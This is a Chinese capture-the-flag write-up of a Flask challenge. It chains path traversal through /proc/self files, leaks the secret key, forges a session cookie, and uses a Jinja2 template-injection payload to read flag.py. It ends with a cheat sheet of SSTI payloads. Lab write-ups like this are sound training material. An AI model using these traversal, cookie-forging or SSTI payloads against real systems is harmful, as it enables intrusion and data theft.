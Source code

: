 ```yaml
---
Author: SuperJason
Date: 2020-12-18
---
```


## flag
`n1book{afr_3_solved}`

## 思路
1. 访问环境，任意输入ls
![](./images/afr3-1.png)
2. 网页将我们的输入值ls打印出来，可能存在模板注入
![](./images/afr3-2.png)
3. 进一步进入article界面，测试flag，模板注入{{1+2}}
![](./images/afr3-3.png)
![](./images/afr3-4.png)
![](./images/afr3-5.png)
4. 注意到输入为{{1+2}}时给出了路径，开始尝试路径穿越`../../../../../../../etc/passwd`，获得passwd文件值
![](./images/afr3-6.png)
5. 利用`/proc/self/environ`获取当前程序的环境变量，猜测flag存在于`/home/sssssserver/flag`，但是还是显示无权限
![](./images/afr3-7.png)
6. 利用`/proc/self/cmdline`获取当前程序命令行记录，发现`python server.py`命令，典型的使用了flask或Django
![](./images/afr3-8.png)
7. 进一步利用`/proc/self/cwd`获取当前进程目录，通过`/proc/self/cwd/server.py`得到源码[server.py](./scripts/afr3_server.py)。在server.py中提到了`key.py`和`flag.py`，其内容如下。
- key.py **#!/usr/bin/python key = 'Drmhze6EPcv0fN_81Bj-nA'**
- flag.py 由于server.py对带flag字符的参数过滤，所以没有得到文件内容
8. 通过阅读源码关键部分，如果`session['n1code']`不存在或者`n1code`不在session中，我们填入的表单值会作为`session['n1code']`的值。
```python
@app.route("/n1page", methods=["GET", "POST"])
def n1page():
    if request.method != "POST":
        return redirect(url_for("index"))
    n1code = request.form.get("n1code") or None 
    if n1code is not None:
        n1code = n1code.replace(".", "").replace(
            "_", "").replace("{", "").replace("}", "")
    if "n1code" not in session or session['n1code'] is None:
        session['n1code'] = n1code
        template = None
    if session['n1code'] is not None:
        template = '''<h1>N1 Page</h1> <div class="row> <div class="col-md-6 col-md-offset-3 center"> Hello : %s, why you don't look at our <a href='/article?name=article'>article</a>? </div> </div> ''' % session[
            'n1code']
        session['n1code'] = None
        return render_template_string(template)
```
然后下列语句会将`session['n1code']`的值打印出来。
```python
template = '''<h1>N1 Page</h1> <div class="row> <div class="col-md-6 col-md-offset-3 center"> Hello : %s, why you don't look at our <a href='/article?name=article'>article</a>? </div> </div> ''' % session['n1code']
```
重点在于我们需要构造`session['n1code']`，能让`flag.py`的值被打印出来

8. 到这里时借用**Wilson Sumanang, Alexandre ZANNI**大佬的[flask session hack](./scripts/flask_session_cookie_hack.py)脚本。
- 解密代码模式
*python flask_session_cookie_hack.py decode -c {cookie} -s {secert_key}*
- 解密代码详情
python .\flask_session_cookie_hack.py decode -c eyJuMWNvZGUiOm51bGx9.X92dcQ.uupVCl_MiIFwJPSj4hnJTB6D5F4 -s Drmhze6EPcv0fN_81Bj-nA
- 本session的cookie值
![](./images/afr3-9.png)
- 执行解密脚本
![](./images/afr3-10.png)


9. 然后把`{'n1code': None}`换成读文件`flag.py`的代码，加密回去
**{'n1code': '{{\'\'.__class__.__mro__[2].__subclasses__()[40](\'flag.py\').read()}}'}**
- 加密代码模式
*python flask_session_cookie_hack.py encode -t {} -s {secert_key}*
- 加密代码详情
*python .\flask_session_cookie_hack.py encode -t "{'n1code': '{{\'\'.__class__.__mro__[2].__subclasses__()[40](\'flag.py\').read()}}'}" -s Drmhze6EPcv0fN_81Bj-nA*
![](./images/afr3-11.png)

10. 得到cookie值，修改网页cookie值，在表单填入任意值，完成对`session['n1code']`的修改，使得[server.py](./scripts/afr3_server.py)可以打印出`flag.py`的内容
- eyJuMWNvZGUiOiJ7eycnLl9fY2xhc3NfXy5fX21yb19fWzJdLl9fc3ViY2xhc3Nlc19fKClbNDBdKCdmbGFnLnB5JykucmVhZCgpfX0ifQ.X92fSQ.KKLJgd92Ymr6a29ENijcYidV1Mk
![](./images/afr3-12.png)
![](./images/afr3-13.png)

11. 获得flag
**n1book{afr_3_solved}**

## 总结
这道题究极费时费力，一个多月前第一次做的时候就不会，现在第二次做也还是不会，不过从当时的半知半解得到flag，到现在基本了解了整道题的原理和考点
- 考察对flask、Django等web框架的cookie、session加解密知识
- 考察`../../../../../`目录穿越
- 考察目录穿越后获取信息的能力
    - `/proc/self/environ` 当前进程环境变量
    - `/proc/self/cmdline` 当前进程命令行，得到`python server.py`命令
    - `/proc/self/cwd` 当前进程工作目录，得到server.py源码，进而找出flask的cookie篡改漏洞。
- 考察SSTI(模板注入)`{'n1code': '{{\'\'.__class__.__mro__[2].__subclasses__()[40](\'flag.py\').read()}}'}`

## SSTI常用命令
- {{config.items()}} *获取配置*
- {{self.__dict__}} *自身dict*
- {{get_flashed_messages.__globals__['current_app'].config}} *获取当前app配置*
- {{get_flashed_messages.__globals__.__getitem__('current_app').config}} *__getitem__绕过[]*
- {{url_for.__globals__.__getitem__('current_app').config}} *url_for减少字符长度*